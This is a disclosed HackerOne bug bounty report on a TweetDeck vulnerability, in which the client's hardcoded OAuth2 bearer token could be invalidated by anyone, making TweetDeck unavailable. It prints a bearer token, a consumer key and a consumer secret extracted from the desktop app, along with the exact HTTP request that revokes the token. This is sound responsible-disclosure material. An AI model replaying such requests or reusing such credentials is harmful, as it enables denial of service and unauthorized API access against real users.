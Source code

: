 # [Urgent] Invalidating OAuth2 Bearer token makes TweetDeck unavailable

## Report Details
- **Report ID**: 210779
- **URL**: https://hackerone.com/reports/210779
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-05T05:51:40.922Z
- **Disclosed**: 2019-04-25T17:00:51.281Z

## Reporter
- **Username**: filedescriptor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
First of all, really sorry for the unintentional DoS :( I was testing it with a fresh bearer token but copied the production one accidentally.

#Details
I've noticed that TweetDeck is using OAuth2 to issue requests (Authorization Bearer token):
```http
GET https://api.twitter.com/1.1/help/settings.json?settings_version= HTTP/1.1
Host: api.twitter.com
Connection: keep-alive
Authorization: Bearer AAAAAAAAAAAAAAAAAAAAAF7aAAAAAAAAi95Q2QkUrMfOxflMJIWoZ3JcvJw%3DOLBx5qSvcDbL37ad9Moq9MtZN2yYQ0r6zKtIupfa5AEbVAoZnM
Origin: https://tweetdeck.twitter.com
X-Csrf-Token: 2170b7f455955368495bc191ed67c892
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Twitter-Auth-Type: OAuth2Session
X-Twitter-Client-Version: Twitter-TweetDeck-blackbird-chrome/4.0.170302174617 web/
Referer: https://tweetdeck.twitter.com/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: en-US,en;q=0.8
```

According to the documentation, with a valid consumer key and consumer secret pair, one can generate or invalidate existing bearer token: https://dev.twitter.com/oauth/reference/post/oauth2/invalidate/token

Now, it can be guessed that the hardcoded bearer token used in TweetDeck belongs to the TweetDeck client. The consumer key and consumer secret can be extracted from the desktop application:

```
Consumer key:    yT577ApRtZw51q4NPMPPOQ
Consumer secret: 3neq3XqN5fO3obqwZoajavGFCUrC42ZfbrLXy5sCv8
```

Apparently, anyone can invalidate the bearer token while issuing token invalidation request:
```http
POST https://api.twitter.com/oauth2/invalidate_token HTTP/1.1
Authorization: Basic eVQ1NzdBcFJ0Wnc1MXE0TlBNUFBPUTozbmVxM1hxTjVmTzNvYnF3Wm9hamF2R0ZDVXJDNDJaZmJyTFh5NXNDdjg=
Host: api.twitter.com
Content-Length: 125
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

access_token=AAAAAAAAAAAAAAAAAAAAAF7aAAAAAAAAi95Q2QkUrMfOxflMJIWoZ3JcvJw%3DOLBx5qSvcDbL37ad9Moq9MtZN2yYQ0r6zKtIupfa5AEbVAoZnM
```

And suddenly all the requests on TweetDeck result in `{"errors":[{"code":89,"message":"Invalid or expired token."}]}`.


## Attachments
No attachments
